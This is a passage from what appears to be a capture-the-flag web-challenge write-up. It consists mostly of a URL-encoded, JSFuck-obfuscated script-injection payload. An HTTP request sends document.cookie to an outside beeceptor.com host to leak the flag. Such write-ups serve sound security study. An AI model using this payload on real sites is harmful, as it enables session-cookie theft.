5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%28%5b%5d%2b%5b%5d%29%5b%28%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%28%5b%5d%5b%5b%5d%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%5b%5d%5b%5b%5d%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%5d%5b%28%5b%5d%5b%5b%5d%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%28%2b%5b%5d%29%5b%28%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%28%5b%5d%5b%5b%5d%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%5b%5d%5b%5b%5d%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%21%2b%5b%5d%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%5d%5d%28%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%5b%2b%21%2b%5b%5d%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%5b%2b%5b%5d%5d%2b%21%5b%5d%2b%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%29%3b%79%3d%60
```

Leak the flag with a fetch request:
```http
GET /?text=ZmV0Y2goImh0dHBzOi8vbTNzc2FwMC5mcmVlLmJlZWNlcHRvci5jb20vIitkb2N1bWVudC5jb29raWUp&unmodifiable[CSP]=foo&unmodifiable[background]=%78%27%60%3b%70%3d%61%74%6f%62%28%64%6f%63%75%6d%65%6e%74%2e%67%65%74%45%6c%65%6d%65%6e%74%73%42%79%43%6c%61%73%73%4e%61%6d%65%28%22%75%73%65%72%42%6f%78%22%29%5b%30%5d%2e%69%6e%6e%65%72%54%65%78%74%29%3b%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%5d%5b%28%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%28%5b%5d%5b%5b%5d%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%5b%5d%5b%5b%5d%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%5d%28%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%5b%5d%5b%5b%5d%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%5b%5d%5b%5b%5d%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%2b%5b%21%5b%5d%5d%2b%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%21%2b%5b%5d%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%2b%28%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%5b%2b%21%2b%5b%5d%5d%29%29%5b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%28%5b%5d%2b%5b%5d%29%5b%28%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%28%5b%5d%5b%5b%5d%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%5b%5d%5b%5b%5d%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%5d%5b%28%5b%5d%5b%5b%5d%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%28%2b%5b%5d%29%5b%28%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%28%5b%5d%5b%5b%5d%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%5b%5d%5b%5b%5d%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%21%2b%5b%5d%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%5d%5d%28%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%29%2b%28%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%29%28%29%28%28%21%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%2b%28%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%5b%2b%21%2b%5b%5d%5d%29%29%5b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%28%5b%5d%2b%5b%5d%29%5b%28%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%28%5b%5d%5b%5b%5d%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%5b%5d%5b%5b%5d%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%5d%5b%28%5b%5d%5b%5b%5d%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%28%2b%5b%5d%29%5b%28%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%28%5b%5d%5b%5b%5d%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%5b%5d%5b%5b%5d%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%21%2b%5b%5d%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%5d%5d%28%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%29%2b%28%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%2b%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%5d%2b%28%2b%28%21%2b%5b%5d%2b%21%2b%5b%5d%2b%5b%2b%21%2b%5b%5d%5d%2b%5b%2b%21%2b%5b%5d%5d%29%29%5b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%28%5b%5d%2b%5b%5d%29%5b%28%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%28%5b%5d%5b%5b%5d%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%5b%5d%5b%5b%5d%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%5d%5b%28%5b%5d%5b%5b%5d%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%